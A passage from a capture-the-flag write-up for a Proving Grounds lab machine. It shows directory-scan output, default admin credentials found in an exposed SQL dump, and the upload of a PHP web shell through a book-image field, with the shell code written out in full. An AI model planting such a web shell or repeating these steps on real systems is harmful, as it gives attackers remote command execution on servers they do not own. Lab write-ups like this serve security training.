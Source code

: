 ```bash
/.html/               (Status: 403) [Size: 280]
/index.php/           (Status: 200) [Size: 3998]
/contact.php/         (Status: 200) [Size: 4155]
/books.php/           (Status: 200) [Size: 5438]
/admin.php/           (Status: 200) [Size: 3153]
/book.php/            (Status: 200) [Size: 10]
/cart.php/            (Status: 200) [Size: 2702]
/purchase.php/        (Status: 200) [Size: 2692]
/template/            (Status: 200) [Size: 1168]
/database/            (Status: 200) [Size: 1183]
/checkout.php/        (Status: 200) [Size: 2696]
/process.php/         (Status: 200) [Size: 1996]
/models/              (Status: 200) [Size: 2128]
/functions/           (Status: 200) [Size: 1409]
/verify.php/          (Status: 200) [Size: 69]
/bootstrap/           (Status: 200) [Size: 1522]
/.php/                (Status: 403) [Size: 280]
/.html/               (Status: 403) [Size: 280]
/controllers/         (Status: 200) [Size: 984]

```

Check out the _/sotre/database_ directory and locate file _www_project.sql_

![database](../../../assets/images/ctfs/proving_grounds/funboxeasy/database.png)

Locate the default credentials for _admin_ user.

![creds](../../../assets/images/ctfs/proving_grounds/funboxeasy/creds.png)

Discovered credentials... admin:d033e22ae348aeb5660fc2140aec35850c4da997
{: .warn }

Authenticate to _admin.php_ portal with discovered credentials.

![auth](../../../assets/images/ctfs/proving_grounds/funboxeasy/auth.png)

Edit a book...

![edit](../../../assets/images/ctfs/proving_grounds/funboxeasy/edit.png)

Upload a PHP command shell file using the Image file option.

![upload](../../../assets/images/ctfs/proving_grounds/funboxeasy/upload.png)

```bash
# Create file test.php with the following web shell code

<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>

```

